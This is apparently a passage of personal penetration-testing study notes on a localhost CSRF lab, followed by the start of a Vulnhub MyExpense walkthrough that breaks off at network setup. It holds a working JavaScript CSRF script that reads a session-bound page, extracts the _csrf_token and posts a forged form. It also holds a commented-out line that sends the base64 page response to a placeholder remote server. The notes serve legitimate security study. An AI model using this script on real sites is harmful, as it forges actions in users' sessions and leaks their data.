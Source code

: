 As we see, there is a POST request to **/newgossip** the cookie as seen we can steal it easily, now we see that we need a **csrf_token** field, let's see if the token is being generated dinamically.

Using the view source (ctrl+shift+u) we found the value is hardcoded.

![[Untitled 61.png]]

So, we have everything we need, lets create a script.

```JavaScript
var domain = "http://localhost:10007/newgossip";

var req1 = new  XMLHttpRequest();
req1.open('GET', domain, false); //This false indicated that the request is synchronous
req1.withCredentials = true; //Arrastrar session
req1.send();

var response = req1.responseText;
/*ES TO ES A MODO DE TRAZA PARA PODER VER EL HTML D ELA RESPUESTA, DE ACA SE PARSEA EL CAMPO CON EL CSRF_TOKEN*/
//var req2 = new XMLHttpRequest();
//req2.open('GET','http://<remote_server_ip>/?response=' + btoa(response)); //btoa encodes to b64

var parser = new DOMParser();
var doc = parser.parseFromString(response,'text/html');
var token = doc.getElementsByName("_csrf_token")[0].value;

var req2 = new XMLHttpRequest();
var data = 'title=prueba&subtitle=prueba&_csrf_token=' + token;
req2.open('POST', domain , false);
req2.withCredentials = true;
req2.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');
req2.send(data);
```

![[Untitled 62.png]]

---

### Exploiting Vulnhub machine MyExpense

Now, let’s get started with the first machine.

The machine is called [MyExpense from Vulnhub](https://vulnhub.com/entry/myexpense-1,405).

  

I download the machine and import it to VMWare, but first I need to configure something to make it work, since the machine is meant to be used in VirtualBox.

- Previous Configuration
    
    First of all change the network configuration, since it probably be configured as NAT or Host-Only.
    
    ![[Untitled 63.png]]
    